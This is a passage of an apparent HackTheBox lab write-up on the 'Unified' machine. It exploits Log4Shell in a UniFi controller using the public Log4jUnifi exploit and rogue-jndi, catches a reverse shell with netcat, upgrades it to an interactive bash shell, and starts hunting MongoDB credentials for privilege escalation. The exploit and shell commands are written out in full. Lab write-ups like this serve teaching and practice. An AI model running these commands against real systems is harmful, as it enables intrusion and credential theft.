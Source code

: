 Let's clone the respective repository and build the package using Maven.<br>
<pre class="text">
git clone --recurse-submodules https://github.com/puzzlepeaches/Log4jUnifi \ && cd Log4jUnifi && pip3 install -r requirements.txt
mvn package -f utils/rogue-jndi/
</pre>
Open another window to execute the <code>nc</code> command, and then use the python script to attack the vulnerability.<br>
<b>cmd</b>：<code>python exploit.py -u &lt;target_ip&gt; -i &lt;local_ip&gt; -p &lt;nc_port&gt;</code>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%202/Unified/Unified/exploit.py.png" alt="exploit" width="60%">
After the attack is successful, you will see the similar picture below.<br>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%202/Unified/Unified/nc1.png" alt="nc1" width="60%">
Enter <code>script /dev/null -c bash</code> to become an <code>interactive</code> shell.<br>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%202/Unified/Unified/nc2.png" alt="nc2" width="60%">
Traverse the directory to get user.txt！
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%202/Unified/Unified/user.txt.png" alt="user.txt" width="40%">

<h2>Privilege Escalation</h2>
The article states we can get access to the administrator panel of the UniFi application and possibly extract
SSH secrets used between the appliances.<br>
First let's check if MongoDB is running on the target system, which might make it possible for us to extract credentials in order to login to the administrative panel.<br>
<b>cmd</b>：<code>ps aux | grep mongo</code>
<img src="https://github.com/laiyutong/HackTheBox/blob/main/Starting%20Point/TIER%202/Unified/Unified/psaux_mongo.png" alt="psaux_mongo" width="60%">
We can see MongoDB is running on the target system on port <code>27117</code>.<br><br>
Let's interact with the MongoDB service by making use of the <code>mongo</code> command line utility and attempting to
extract the administrator password.<br>